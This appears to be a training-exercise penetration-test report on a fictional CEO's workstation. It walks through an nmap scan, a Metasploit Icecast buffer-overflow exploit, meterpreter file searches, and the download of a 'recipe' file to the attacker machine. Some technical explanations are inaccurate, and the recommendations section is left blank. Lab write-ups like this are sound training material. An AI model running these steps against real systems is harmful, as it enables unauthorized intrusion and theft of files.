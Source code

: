 <div align="center">GoodSecurity Penetration Test Report

TamieBoychuk@GoodSecurity.com

29 March 2022



<div align="left">

**1.	High-Level Summary**

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs with major vulnerabilities. The details of the attack are below.

  
**2.	Findings**

* Machine IP:
  
  - Machine’s IP address = `192.168.0.20`
  
* Hostname:

  - Actual name of the machine = `MSEDGEWIN10`

* Vulnerability Exploited:

  - The name of the script or Metasploit module used: `The exploit/windows/http/icecast_header` allows an attacker or threat actor to gain remote control of a victims system by exploiting a buffer overflow which overwrites the memory on the vicitms system using the "icecast" flaw.  The flaw allows for writing past the end of a pointer array when receiving information greater than 32 characters (headers).

* Vulnerability Explanation:

  -  If you use audio streaming services like `Spotify` then you've used `Icecast.` It is a streaming media server used by radio stations, online music streaming and other similar platforms that allow you to create list of your favorite music and listen to it anywhere at anytime.  The `Icecast Flaw` is used by attackers and or threat actors to inject malicious code into the `Icecast` overflow buffer.  The `Icecast` server has a maximum set of 32 characters in the client's HTTP request.  If the request is longer than 32 characters (aka headers) then the excess is sent to the stack overflow where it fills the buffers allocated for the overflow.  In this process of buffer overflow is something called an `Extended Instruction Pointer (EIP)` that holds the memory address of the next instruction to execute in the buffer overflow.  It is in the `EIP` that an attack is able to be executed.  Once the overflow fills the buffers allocated it overwrites the `EIP` address space.  If it overwrites with a new `return pointer` it can tell the CPU to go to an address which contains `instruction code` which will then be executed.  It is here where a malicious code or unwanted process can be executed by an attacker.
  
[Click Here For Full Extract On Information Above](https://www.giac.org/paper/gcih/687/remote-exploitation-icecast-201-server/106910)
  

**Severity:**
In your expert opinion, how severe is this vulnerability?
  
The severity of this attack according to CVE was scored at `7.5` highlighting that the compromise of confidentiality, integrity and availabitlity is considerable.
  
[Click Here For CVE Details](https://www.cvedetails.com/cve/CVE-2004-1561/)

## Proof of Concept:

After receiving written permission from GoodCorp Inc. a security test was ran against the CEO's workstation.  The following highlights the steps taken to complete the test and the vulnerabilities found during testing.
  
A service and version scan was ran first using nmap to determine the service and version running on the system.  The scan was specifically looking to see if a version of `Icecast` was running on the network.
  
* Command used: `nmap -sV 192.168.0.20`
  -  nmap = network scanner
  -  -sV = specification to run a service and version scan
  -  192.168.0.20 = target the scan is being ran against (The CEO's workstation IP address)
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Service%20and%20Version%20Scan.png)
  
Above you can see that the `Icecast` service was running on the machine as well as what version was running.  The next step was to search for any `Icecast` exploits on the machine.

* Command used: `searchsploit icecast`
  -  searchsploit = security assessment tool for searching offline repositories
  -  icecast = exploit/s being searched for
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Searchsploit%20Icecast.png)
  
Above you can see there are multiple `Icecast` exploits available. 
  
Next, penetration testing software called `Metasploit` was used to continue testing. The two images below demonstrate the ability to load and use `Metasploit` to find `Icecast` module/s to use against the target.
  
* Command To Start Metasploit:  `msfconsole`
* Command To Search For Module:  `search icecast`  

![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Find%20Icecast%20Module.png)
  
A more generic search focused on the word `cast` was also ran to compare results of the search (see below):
  
* Command To Search For Just 'cast': `search cast`
  
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Generic%20search%20for%20'cast'.png)
  
 -  Module Found In Both Searches = /exploit/windows/http/icecast_header
  
To load the module for exploit you can use the entire path of the module found or you can use the number in front of the module as can be seen in image above.
  
  -  Command To Use Entire Path Module = `use /exploit/windows/http/icecast_header` 
  -  Command Using Just Number = `use 23`
  
  
Before running the exloit the receiving host of the exploit needs to be set.
   -  Command To Set RHOST = `set RHOST 192.168.0.20`
      * The receiving host or RHOST is the CEO's IP Address
  
After setting the RHOST the exploit was run (see below).
  
   -  Command To Run The Icecast Exploit = `exploit`
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/exploit%20successful.png)
  
As can be seen above the exploit was successful and an `open session` was established with the target, the CEO's workstation.
  
The next part of the security test was to see if files that contain the strings `recipe` or `secretfile` could be found.
  
   -  Command To Search For `secret` Text File = `search -f *secret*.txt`
      * search = command to run a search
      * -f = indicates that the search is for a file
      * *secret*.txt = indicate to search all text files containing the word `secret` 
   
 
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/secretfile.txt%20search.png)
  
As can be seen above the command was successful in finding a file with `secretfile.txt` and revealed the path to the file.
  
   -  Command To Search For `recipe` Text File = `search -f *recipe*.txt`
      * search = command to run a search
      * -f = indicates that the search is for a file
      * *recipe*.txt = indicate to search all text files containing the word `recipe` 
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/recipe.txt%20search.png)
  
Again, the search was successful in finding a file containing the word `recipe` as well as the path to the file.
  
From root directory we changed into the directory where the `Drinks.recipe.txt` was found.

Once in the directory we read the contents of the file.
   -  Command To Open & Read File = `cat Drinks.recipe.txt` (see results below)
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Drink%20Recipe.png)
  
Taking the security testing further we were able to exfiltrate the `Drinks.recipe.text` and download it from the CEO's workstation back to the attacker machine.

   -  Command To Exfiltrate & Download Recipe = `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'`
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/download%20recipe.png)
  
The file was successfully stolen from the CEO's computer as can be seen above.
  
To solidify the legitimacy of the security testing and highlight the vulnerabilities found additional security testing was ran against the CEO's workstation.
  -  It should be noted that no other IP addresses were exploited and no changes were made to files or the configuration of the CEO's workstation during this testing.

The find other possible exploits the local `workstation` was searched:
   -  Command To Use Exploit Suggester = `run post/multi/recon/local_exploit_suggestor
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Exploit%20Suggester%20Run.png)
  
Two additional vulnerabilties were found using this command as can be seen above but were not run against the CEO's workstation.
   -  Click [Here](https://nvd.nist.gov/vuln/detail/CVE-2016-3225) for additional information about `exploit/windows/local/ms16_075_refelction as known as `CVE-2016-3225`
   - Click [Here]() for additional information about `exploit/windows/local/ikeext_service also known as 
  










3.	Recommendations

What recommendations would you give to GoodCorp?



